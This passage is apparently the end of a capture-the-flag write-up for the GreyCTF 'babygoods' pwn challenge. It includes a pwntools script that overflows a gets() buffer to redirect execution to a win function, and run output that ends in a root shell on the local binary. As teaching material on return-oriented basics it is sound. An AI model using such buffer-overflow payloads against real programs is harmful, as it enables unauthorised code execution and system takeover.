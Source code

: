 ```
0x00000000004014e0  _fini
pwndbg> 

```

We can also see our sub_15210123() (the holy win function) is located at 0x401236. 

Using all the stuff that we just talked about, we can craft a payload like this.

```python
from pwn import *

OFFSET=40
win_function=0x401236

payload=b"A"*40+p64(win_function)

p=process("./babygoods")

p.sendlineafter("Enter your name: ","brokeaf")
p.sendlineafter("Input",b"1")
p.sendlineafter("(1-5): ","1")# literally doesn't matter what number you choose btw
p.sendlineafter("name: ",payload) # the vulnerability woahhhh

p.interactive()
```
```python3 solve.py
[+] Starting local process './babygoods': pid 6241
/home/[REDACTED]/greyctf/pwn/distribution/solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter("Enter your name: ","brokeaf")
/usr/local/lib/python3.11/dist-packages/pwnlib/tubes/tube.py:840: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  res = self.recvuntil(delim, timeout=timeout)
/home/[REDACTED]/greyctf/pwn/distribution/solve.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter("(1-5): ","1")# literally doesn't matter what number you choose btw
[*] Switching to interactive mode

New pram AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@ of size 1 has been created!
$ whoami
root
$  
```

Just like that, we pwned the binary. 

Overall, this challenge is like the very basics of ROP (return-orientated programming) and shows you that gets() is pretty terrible.
